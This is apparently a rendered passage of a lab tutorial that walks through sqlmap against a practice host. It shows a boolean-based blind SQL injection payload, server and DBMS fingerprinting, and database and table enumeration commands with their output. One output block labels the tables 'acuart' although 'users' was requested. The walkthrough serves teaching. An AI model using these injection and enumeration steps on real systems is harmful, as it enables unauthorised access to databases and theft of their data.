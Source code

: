 ```shell
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
```

After running the above command, we got two database names. Select the users database and fetch the tables inside of it. We will define the database after the flag `-D` and use the `--tables` flag at the end to extract all the table names.

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```
